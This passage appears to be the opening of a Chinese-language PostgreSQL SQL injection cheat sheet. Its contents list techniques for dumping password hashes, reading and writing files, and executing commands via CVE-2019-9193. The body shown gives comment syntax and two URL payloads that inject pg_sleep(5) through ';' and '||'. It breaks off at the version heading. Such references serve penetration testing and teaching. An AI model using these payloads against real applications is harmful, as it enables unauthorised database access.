 # PostgreSQL 注入

## 摘要

* [PostgreSQL 注释](#postgresql-comments)
* [PostgreSQL 版本](#postgresql-version)
* [PostgreSQL 当前用户](#postgresql-current-user)
* [PostgreSQL 列出用户](#postgresql-list-users)
* [PostgreSQL 列出密码哈希](#postgresql-list-password-hashes)
* [PostgreSQL 列出数据库管理员账户](#postgresql-list-database-administrator-accounts)
* [PostgreSQL 列出权限](#postgresql-list-privileges)
* [PostgreSQL 检查当前用户是否为超级用户](#postgresql-check-if-current-user-is-superuser)
* [PostgreSQL 数据库名称](#postgresql-database-name)
* [PostgreSQL 列出数据库](#postgresql-list-database)
* [PostgreSQL 列出表格](#postgresql-list-tables)
* [PostgreSQL 列出列](#postgresql-list-columns)
* [PostgreSQL 基于错误](#postgresql-error-based)
* [PostgreSQL XML 辅助工具](#postgresql-xml-helpers)
* [PostgreSQL 盲注](#postgresql-blind)
* [PostgreSQL 基于时间](#postgresql-time-based)
* [PostgreSQL 堆叠查询](#postgresql-stacked-query)
* [PostgreSQL 文件读取](#postgresql-file-read)
* [PostgreSQL 文件写入](#postgresql-file-write)
* [PostgreSQL 命令执行](#postgresql-command-execution)
  * [CVE-2019–9193](#cve-20199193)
  * [使用 libc.so.6](#using-libcso6)
* [绕过过滤器](#bypass-filter)
* [参考资料](#references)

## PostgreSQL 注释

```sql
--
/**/  
```

## PostgreSQL 注入链符号

```sql
; #用于终止 SQL 命令。它只能在语句中的字符串常量或引用标识符中使用。
|| #或语句

# 使用示例： 
/?whatever=1;(select 1 from pg_sleep(5))
/?whatever=1||(select 1 from pg_sleep(5))
```

## PostgreSQL 版本
